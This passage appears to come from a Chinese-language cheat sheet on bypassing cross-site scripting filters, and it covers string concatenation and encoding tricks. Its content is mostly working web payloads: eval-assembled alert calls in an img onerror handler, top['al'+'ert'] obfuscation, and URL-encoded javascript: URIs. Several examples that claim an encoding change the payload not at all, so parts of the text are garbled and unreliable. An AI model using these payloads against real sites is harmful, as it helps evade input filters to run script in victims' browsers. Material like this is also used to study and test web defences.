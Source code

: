 \<script>alert()\</script>

替换：

<script>alert()</script>

## **4.5 字符拼接**

利用eval：eval是Javascript内置函数，用于计算字符串表达式的值。

示例：

```html
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)">
```

利用top

示例：

\<script>top["al"+"ert"](`xss`);\</script>

## **4.6 编码绕过**

### **4.6.1** **Unicode编码绕过**

示例：

```html
<img src="javascript:alert('xss');">
```

替换：

```html
<img src="javascript:alert('xss');">
```



### **4.6.2 url 编码绕过**

示例：

```html
<img src="javascript:alert('xss');">
```

替换：

```html
<img src="javascript:%61%6C%65%72%74%28%22%78%73%73%22%29%3B;">
```



### **4.6.3 ascii码绕过**

示例：

```html
<img src="javascript:alert('xss');">
```
